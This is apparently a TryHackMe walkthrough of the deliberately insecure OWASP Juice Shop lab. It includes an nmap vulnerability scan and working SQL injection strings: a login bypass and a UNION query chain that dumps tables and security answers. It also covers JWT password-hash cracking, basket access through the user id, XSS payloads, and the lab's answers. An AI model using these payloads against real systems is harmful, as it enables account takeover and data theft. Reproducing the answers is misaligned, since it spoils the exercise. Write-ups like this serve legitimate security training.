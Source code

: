 # OWASP Juice Shop (tryhackme)

## nmap initial scan
```
# Nmap 7.60 scan initiated Mon May 25 13:21:02 2020 as: nmap -sC -sV -p- --script=default,vuln -oN nmap/output -T3 10.10.12.237
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.12.237
Host is up (0.22s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bf:e2:a7:4c:4f:43:49:7d:32:bb:79:47:cf:3e:4c:e9 (RSA)
|   256 a9:06:05:52:66:d9:ef:07:72:3d:bc:0c:db:d9:eb:a9 (ECDSA)
|_  256 a9:24:08:59:14:be:4a:8c:e4:79:2f:56:8c:3a:99:a9 (EdDSA)
80/tcp open  http    Node.js Express framework
|_http-aspnet-debug: ERROR: Script execution failed (use -d to debug)
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-majordomo2-dir-traversal: ERROR: Script execution failed (use -d to debug)
| http-phpmyadmin-dir-traversal: 
|   VULNERABLE:
|   phpMyAdmin grab_globals.lib.php subform Parameter Traversal Local File Inclusion
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2005-3299
|       PHP file inclusion vulnerability in grab_globals.lib.php in phpMyAdmin 2.6.4 and 2.6.4-pl1 allows remote attackers to include local files via the $__redirect parameter, possibly involving the subform array.
|       
|     Disclosure date: 2005-10-nil
|     Extra information:
|       ../../../../../etc/passwd :
|   <!doctype html>
|   <html lang="en">
|   <head>
|     <meta charset="utf-8">
|     <title>OWASP Juice Shop</title>
|     <base href="/">
|     <meta name="description" content="An intentionally insecure JavaScript Web Application">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link id="favicon" rel="icon" type="image/x-icon" href="favicon.ico">
|     <link href="https://fonts.googleapis.com/icon?family=Material Icons" rel="stylesheet">
|     <link rel="stylesheet" type="text/css" href="//cdnjs.cloudflare.com/ajax/libs/cookieconsent2/3.1.0/cookieconsent.min.css" />
|     <script src="//cdnjs.cloudflare.com/ajax/libs/cookieconsent2/3.1.0/cookieconsent.min.js"></script>
|     <script>
|       window.addEventListener("load", function(){
|         window.cookieconsent.initialise({
|           "palette": {
|             "popup": { "background": "#546e7a", "text": "#ffffff" },
|             "button": { "background": "#558b2f", "text": "#ffffff" }
|           },
|           "theme": "classic",
|           "position": "bottom-right",
|           "content": { "message": "This website uses fruit cookies to ensure you get the juiciest tracking experience.", "dismiss": "Me want it!", "link": "But me wait!", "href": "https://www.youtube.com/watch?v=9PnbKL3wuH4" }
|         })});
|     </script>
|   <link rel="stylesheet" href="styles.css"></head>
|   <body class="mat-app-background bluegrey-lightgreen-theme">
|     <app-root></app-root>
|   <script type="text/javascript" src="runtime.js"></script><script type="text/javascript" src="polyfills.js"></script><script type="text/javascript" src="vendor.js"></script><script type="text/javascript" src="main.js"></script></body>
|   </html>
|   
|     References:
|       http://www.exploit-db.com/exploits/1244/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2005-3299
| http-robots.txt: 1 disallowed entry 
|_/ftp
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: OWASP Juice Shop
| http-vuln-cve2011-3192: 
|   VULNERABLE:
|   Apache byterange filter DoS
|     State: VULNERABLE
|     IDs:  CVE:CVE-2011-3192  OSVDB:74721
|       The Apache web server is vulnerable to a denial of service attack when numerous
|       overlapping byte ranges are requested.
|     Disclosure date: 2011-08-19
|     References:
|       http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
|       http://seclists.org/fulldisclosure/2011/Aug/175
|       http://osvdb.org/74721
|       http://nessus.org/plugins/index.php?view=single&id=55976
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 25 14:04:04 2020 -- 1 IP address (1 host up) scanned in 2582.50 seconds

```


### [Task 1] Connect To Our Network
1. Connect to our Network
```
No answer needed
```

### [Task 2] Configure Burp(If you haven't already)
1. Set up Burp
```
No answer needed
```

### [Task 3] Walk through the application
1. Walk through the application and use the functionality available
```
No answer needed
```

### [Task 4] Injection
1. Log in with the administrator's user account using SQL Injection
```
No aswer needed
```

To log in to the administrator account we just need trick the query send through the backend to the database system

What the standard the query supposed to look like...
```
SELECT * FROM <users> WHERE email='$email' AND password='md5($password)'
```
With this knowledge we can manipulate the $email variable by closing the string and appending what we want to bypass that, and just commnent the other stuff that we don't want

Query:
```
'OR 1=1 -- -
```

### [Task 5] Broken Authentication
1. reset Jim's password using the forgotten password mechanism - what was the answer to the secret question?
```
samuel
```

First way:
SQLi from search
Query progress
```
/rest/product/search?q='

')) UNION SELECT 1,2,3,4,5,6,7,8 -- -

lalala')) UNION SELECT name,tbl_name,3,4,5,6,7,8 FROM SQLITE_MASTER WHERE type="table"/*

lalala'))+UNION+SELECT+sql,tbl_name,3,4,5,6,7,8+FROM+SQLITE_MASTER+WHERE+tbl_name%3d"SecurityAnswers"/*

lalala')) UNION SELECT id,UserId,answer,4,5,6,7,8 FROM SecurityAnswers/*

47bd24c3702cf53594f1e14320f798512b3cbb492fdae4305fe30607f81588cf
```


Second way:
look at main.js, see that there is a  path to administration, then look at the recycling order from user 2 (jim). there's said it's from starfleet, star trek reference just search for the eldest sibling...

2. What is the administrator password?
```
admin123
```

When we logged in as the administrator we can see from the request on burpsuite that there is somesort of base64 token, but not all the string can be decoded by base64, looking at the starting string after decoding it we can see that it is a JWT token. And there's a lot of information from that token... and there is a hashed password there... MD5 hashed password to be exact. then... just dehash that using john, or hashcat, or any other tools you want

### [Task 6] Sensitive Data Exposure
1. Access a confidential document and enter the name of the first file with the extension ".md"
```
acquisitions.md
```

There is a robots.txt file and there we can see that there is /ftp directory...

### [Task 7] Broken Access Control
1. Access the administration section of the store - What is the name of the page?
```
administration
```

Look at main.js, there is a path through administrator

2. Access someone else's basket
```
No answer needed
```

Check your browser storage, there is an id equavalent to UserId there

3. Get rid of all 5 star customer feedback
```
No answer needed
```

Just delete it from administration page

### [Task 8] Cross Site Scripting(XSS)
1. Carry out reflected XSS using Tracking Orders
```
No answer needed
```

Injection
```
<iframe src="javascript:alert(`xss`)">
```

2. Carry out XSS using the Search field?
```
No answer needed
```

Injection
```
<img src=x onerror=alert('XSS');>
```


Good reference:
[Challenge solutions - Pwning OWASP Juice Shop](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/appendix/solutions.html)